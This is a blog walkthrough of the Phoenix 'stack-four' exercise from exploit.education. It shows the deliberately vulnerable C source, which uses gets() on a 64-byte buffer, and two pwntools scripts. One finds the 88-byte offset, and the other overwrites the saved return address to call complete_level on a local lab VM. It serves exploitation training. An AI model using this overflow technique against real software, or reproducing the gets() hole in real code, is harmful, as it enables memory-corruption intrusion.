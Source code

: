 ## Stack-Four
---

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st4_header.png)

### Source Code
----

```
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}

```
### Let's Analyze the code
---

```
char *gets(char *);
```
- The gets function is declared, although it is generally considered unsafe and should be avoided in favor of safer alternatives like fgets.

```
void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}
```
- The complete_level() function is defined. It prints a congratulatory message and exits the program with a status code of 0.

```
void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}
```
- The start_level() function is defined. It declares a character array called buffer with a size of 64 bytes. It then uses the unsafe gets function to read input from the user and store it in the buffer array. This is the vulnerable part of the code where a buffer overflow can occur.
   
   After reading input, the ret variable is assigned the value of the return address of the current function using the __builtin_return_address(0) function. The return address represents the address to which the program will jump after the current function finishes executing.

```
int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
- Finally, the main() function is defined. It displays the program's banner using the BANNER macro and calls the start_level() function to start the vulnerable part of the program

### Solution to Challenge
---

The goal of this challenge is to overwrite the saved instruction pointer `$rip`, this is a standard buffer overflow challenge, similar to the previous challenge we need to somehow call the `complete_level` function all the way from main.

Using GDB to get the address of the `complete_level` function :

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st4_f-address.png)

we got the address of the `complete_level` function to be `0x40061d`

since this is a standard buffer overflow challenge we need to find the offset at which we could overwrite the instruction, gdb-gef as a cool feature of generating a de-bruijn sequence under the method name `cyclic`

using pwntools to write a script that finds the offset at which `rip` would be overwritten:

```
#!/usr/bin/python
## script by Hamza Saidu
## enjoy!!!

from pwn import *


# complete_level address

addr = p32(0x40061d)


s = ssh(host='localhost', user='user', password='user', port=2222)

out = s.run('gdb /opt/phoenix/amd64/stack-four')
print(out.recvuntil(b'(gdb)').decode())

out.sendline('set disassembly-flavour intel')
print(out.recvuntil(b'(gdb)').decode())

out.sendline('info func')
print(out.recvuntil(b'(gdb)').decode())

#creating a de-bruijn sequence
pattern = cyclic(200, n=8) # 8 for x64 and 4 for x86

out.sendline('r')
print(out.recvuntil(b'\n').decode())

#sending the de-bruijn sequence
out.sendline(pattern)
print(out.recvuntil(b'(gdb)').decode())

#searching for the overflow offset
out.sendline('pattern search $rip')

#storing the output
output = out.recvuntil(b'(gdb)').decode()
print(output)

#extracting the offset
offset = int(re.findall(r"offset ([0-9]+=?) \(little-endian search\)", output)[0])
print(offset)

```
in the above script, we used pwntools to automate the offset calculation, after running the script the offset printed out is `88`, using this offset we could now point our rip register to the `complete_level` function address

```
#!/usr/bin/python
## script by Hamza Saidu
## enjoy!!!

from pwn import *


# complete_level address

addr = p32(0x40061d)


s = ssh(host='localhost', user='user', password='user', port=2222)
offset = 88


payload = offset * b"A"
payload += addr
payload += b"\x00\x00\x00\x00" # padded some null bytes to make it 8 bytes long

p = s.process('/opt/phoenix/amd64/stack-four')

print(p.recvuntil(b'\n').decode())

p.sendline(payload)
print(p.recvall().decode())

```

Running the script we got:

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st4-result.png)

and waaala we got the congratz message!!!!!!!


